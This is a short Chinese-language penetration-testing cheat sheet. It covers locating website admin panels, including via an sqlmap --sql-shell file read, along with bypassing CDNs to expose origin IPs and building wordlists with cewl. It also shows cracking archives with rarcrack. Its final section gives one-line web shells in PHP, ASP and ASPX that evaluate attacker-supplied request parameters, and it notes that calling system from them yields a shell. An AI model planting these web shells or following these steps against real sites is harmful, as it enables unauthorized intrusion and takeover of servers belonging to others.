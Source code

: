 ## 后台查找

1. 弱口令默认后台
   1. admin
   2. admin/login.asp
   3. manage
   4. login.asp
2. 查看网页的链接
   1. 一般来说，网站的主页有管理员登录类似的东西，一般会被管理员删掉。
3. 查看网站图片的属性
4. 查看网站使用的管理系统
5. 一些工具
6. 查看网站编辑器是否有默认后台
7. 短文件利用
8. sqlmap --sql-shell load_file('index.php');

## 绕过CDN

* 使用超级ping来判断网站有没有使用CDN
* 查找二级域名
* 让服务器主动发包（邮件）
* 敏感文件泄漏
* 查询历史解析IP
* 访问绕过（修改hosts文件）

## 密码生成

```shell
cewl -w 字典 目标url
```

## 破解zip

```shell 
rarcrack --type rar --threads 10 test.rar
```

## 一句话木马

```php
<?php @eval($_GET['wuya']); ?>
```

```asp
<%eval request("wuya")%>
```

```aspx
<%@ Page Language="Jscript"%> <%eval (Requst.Item['wuya'],"unsafe");%>
```

执行`system`函数即可调用`shell`

